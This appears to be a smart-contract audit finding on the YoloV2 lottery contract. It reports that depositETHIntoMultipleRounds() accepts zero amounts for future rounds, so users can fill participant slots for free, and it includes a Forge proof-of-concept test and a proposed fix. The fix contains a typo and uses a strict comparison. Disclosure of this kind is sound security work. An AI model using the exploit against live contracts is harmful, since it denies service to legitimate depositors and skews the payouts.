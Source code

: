 Sharp Indigo Ostrich

high

# Anyone can participate in a future round for free

## Summary

Users can call depositETHIntoMultipleRounds() and provide zero amounts for future rounds. This results in the user being added as a participant and depositor into the round without having to pay the protocol any funds for the deposit.

## Vulnerability Detail

depositETHIntoMultipleRounds() allows depositors to deposit into future rounds. To do this, a depositor provides an array of amounts. At no time does the function check that the amount is non-zero. 

To achieve this, a user provides a valid non-zero deposit for at least one round with the equivalent msg.value sent. This bypasses the first initial check in the function.

```solidity
if (msg.value == 0 || numberOfRounds == 0) {
    revert ZeroDeposits();
}
```

From there, the protocol iterates over each round and successfully adds the the user as a depositor via a call to _incrementUserDepositCount() which increase deposit count and participant count for that round:

```solidity
// Contents of _incrementUserDepositCount()
uint256 userDepositCount = depositCount[roundId][msg.sender];
if (userDepositCount == 0) {
    uint256 numberOfParticipants = round.numberOfParticipants;
    if (numberOfParticipants == round.maximumNumberOfParticipants) {
        revert MaximumNumberOfParticipantsReached();
    }
    unchecked {
        // AUDIT: a side effect of allowing zero amounts equal a valid deposit is that the number of participants increase, even though no deposit is made!
        round.numberOfParticipants = uint40(numberOfParticipants + 1);
    }
}
unchecked {
    // AUDIT: a side effect of allowing zero amounts equal a valid deposit is that the deposit count increases, even though no deposit is made!
    depositCount[roundId][msg.sender] = userDepositCount + 1;
}
```

A user can call depositETHIntoMultipleRounds() multiple times as long they are willing to pay for one round of play.

Below is a forge test that shows off a depositor depositing into future rounds for free and borking the system:

- Depositors can fill up all participants for a round by providing a zero amount in that future round. This leads to other participants not being able to participate in that round or future rounds.
- Depositors are considered participants if they provide a zero amount in that future round.

```solidity
function _zeroAmounts() private pure returns (uint256[] memory amounts) {
    amounts = new uint256[](4);
    amounts[0] = 10 ether;
    amounts[1] = 0;
    amounts[2] = 0;
    amounts[3] = 0;
}

function test_AmountZeroMultipleDeposits() public {
    vm.startPrank(owner);
    yolo.updateMaximumNumberOfParticipantsPerRound(2);

    vm.startPrank(user1);
    yolo.depositETHIntoMultipleRounds{value: 10 ether}(_zeroAmounts());

    vm.deal(user2, 10 ether);
    vm.startPrank(user2);
    yolo.depositETHIntoMultipleRounds{value: 10 ether}(_zeroAmounts());

    vm.deal(user3, 10 ether);
    vm.startPrank(user3);
    // AUDIT: revert occurs below since other users have participated in a future round for free and the quota has been reached
    vm.expectRevert();
    yolo.depositETHIntoMultipleRounds{value: 10 ether}(_zeroAmounts());

    for (uint256 i = 2; i <= 4; i++) {
        (
            IYoloV2.RoundStatus status,
            uint40 maximumNumberOfParticipants,
            uint16 protocolFeeBp,
            uint40 cutoffTime,
            uint40 drawnAt,
            uint40 numberOfParticipants,
            address winner,
            uint96 valuePerEntry,
            uint256 protocolFeeOwed,
            IYoloV2.Deposit[] memory deposits
        ) = yolo.getRound(i);

        
        for (uint256 i = 2; i <= 4; i++) {
            // AUDIT: we've had two users deposit zero amounts into future rounds. This should mean that every round has two deposits.
            assertEq(deposits.length, 2);
        }
    }
}
```

## Impact

Users can deposit into future rounds for free. This breaks the entire notion that a round should consist of paying depositors. Malicious users can DOS the depositETHIntoMultipleRounds function filling up as false participants in future rounds. Legitimate depositors will also face unfair rounds where the majority of players deposited nothing, creating low profits when a legitimate depositor wins a round.

## Code Snippet

https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol?plain=1#L312-L362

## Tool used

Manual Review

## Recommendation

There should be a check inside depositETHIntoMultipleRounds() which should validate that the amount exceeds at least the value of one round entry. If it is zero, the protocol should either skip the round or revert.

```solidity
function depositETHIntoMultipleRounds(uint256[] calldata amounts) external payable nonReentrant whenNotPaused {
    ...

    for (uint256 i; i < numberOfRounds; ++i) {
        uint256 roundId = _unsafeAdd(startingRoundId, i);
        Round storage round = rounds[roundId];
        uint256 roundValuePerEntry = round.valuePerEntry;

        uint256 depositAmount = amounts[I];
        // AUDIT: check below required
        require(depositAmount > roundValuePerEntry, "Amount must be at least one roundValuePerEntry");
```
